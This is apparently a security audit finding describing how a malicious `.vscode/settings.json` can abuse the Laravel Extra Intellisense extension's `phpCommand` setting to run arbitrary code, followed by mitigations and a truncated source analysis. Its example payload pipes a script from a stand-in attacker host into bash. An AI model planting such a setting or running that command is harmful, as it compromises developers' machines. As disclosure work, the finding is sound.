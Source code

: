 - vulnerability name: Arbitrary Code Execution via Malicious Workspace Configuration
  - description: |
    1. An attacker crafts a malicious Laravel project and includes a `.vscode/settings.json` file in the project root.
    2. Within this `settings.json`, the attacker sets the `LaravelExtraIntellisense.phpCommand` configuration to a malicious command. For example, they might set it to `bash -c "curl attacker.com/malicious_script.sh | bash"` to download and execute a script from an external source, or simply `touch /tmp/pwned` for a local test.
    3. A developer, unaware of the malicious nature of the project, opens this Laravel project in VSCode, with the "Laravel Extra Intellisense" extension installed and enabled.
    4. Upon opening the project, the extension activates and automatically attempts to enhance the development experience by providing autocompletion features. To do this, it needs to gather information about the Laravel project's configuration, routes, views, etc.
    5. The extension uses the `Helpers.runLaravel` function to execute PHP code within the context of the opened Laravel project. This function is designed to run Laravel commands to extract necessary data for autocompletion.
    6. Crucially, `Helpers.runLaravel` relies on the `LaravelExtraIntellisense.phpCommand` configuration setting to determine how to execute PHP code.
    7. Because the attacker has maliciously modified the `phpCommand` setting in the project's `.vscode/settings.json`, the extension unwittingly executes the attacker's arbitrary command instead of the intended PHP code. This allows the attacker to run any code they desire on the developer's machine, with the same privileges as the VSCode process.
  - impact: Arbitrary code execution on the developer's machine. This can have severe consequences, including:
    - Data theft: Attackers could steal sensitive information from the developer's projects or personal files.
    - Malware installation: The attacker could install viruses, trojans, or other malicious software on the developer's system.
    - System compromise: Full control over the developer's machine could be achieved, allowing for further attacks and lateral movement within a network.
  - vulnerability rank: Critical
  - currently implemented mitigations:
    - Security Note in `README.md`: The extension's `README.md` file includes a "Security Note" section. This section advises users that the extension automatically and periodically runs their Laravel application to gather data for autocompletion. It warns about potential errors and suggests temporarily disabling the extension when working with sensitive code in service providers to prevent unwanted application execution. This serves as a documentation-based warning to security-conscious users.
  - missing mitigations:
    - Input sanitization/validation of `phpCommand`: The extension should sanitize or validate the `phpCommand` configuration setting to prevent execution of arbitrary commands. For example, it could verify that the command starts with `php` and reject any configuration that attempts to execute other commands directly.
    - Warning to user about modified `phpCommand`: VSCode or the extension could display a warning to the user when a workspace configuration modifies the `LaravelExtraIntellisense.phpCommand` setting, especially when it deviates from a safe default or a user-defined global setting.
    - Principle of least privilege: Ideally, the extension should not require the execution of arbitrary commands defined by user configuration. A safer approach would be to use a predefined, secure method for extracting Laravel project information, or to restrict the `phpCommand` to a very limited set of safe operations.
  - preconditions:
    - The developer must have the "Laravel Extra Intellisense" extension installed and enabled in VSCode.
    - The developer must open a malicious Laravel project that contains a malicious `.vscode/settings.json` file.
  - source code analysis: |
    - File: `src/helpers.ts`
    - Function: `runPhp(code: string, description: string|null = null)`
    ```typescript
    static async runPhp(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/\"/g, "\\\"");
        if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
            code = code.replace(/\$/g, "\\$");
            code = code.replace(/\\\\'/g, '\\\\\\\\\'');